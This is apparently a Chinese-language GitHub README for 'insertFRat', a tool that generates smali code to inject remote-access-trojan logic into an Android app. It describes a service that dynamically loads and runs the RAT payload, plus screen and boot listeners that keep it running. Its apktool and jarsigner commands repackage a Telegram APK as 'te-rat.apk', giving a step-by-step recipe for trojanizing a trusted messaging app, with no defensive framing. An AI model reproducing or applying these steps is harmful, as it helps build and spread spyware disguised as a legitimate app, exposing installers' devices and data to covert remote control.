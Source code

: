 ### insertFRat

此项目用于生成部分需要添加的smali代码，如myService中动态加载包含RAT逻辑的jar并执行，注册屏幕监听事件。

#### 生成方式

在Android Studio中编译生成apk文件，接着使用apktool反编译得到的apk。

```shell
apktool d app-debug.apk
```

进入到反编译生成的app-debug文件夹，进入到app-debug/smali/com/hhm/android/otherapp，理论上需要的smali如下：

- myService.smali、myService$1.smali：在服务中动态加载dex并反射执行initAndStartRat()方法启动RAT逻辑的java代码对应的smali。
- ScreenListener.smali、ScreenListener$1.smali、ScreenListener$ScreenBroadcastReceiver.smali、ScreenListener$ScreenStateListener.smali：屏幕事件监听。
- BootReceiver.smali：开机或重启完成监听。

### add
-java -jar apktool_2.4.1.jar d app-debug.apk
-java -jar apktool_2.4.1.jar b .\Telegram_v6.3.0_apkpure.com -o te-rat.apk
-jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keypass 123456 -storepass 123456 -keystore demo.keystore te-rat.apk demo.keystore

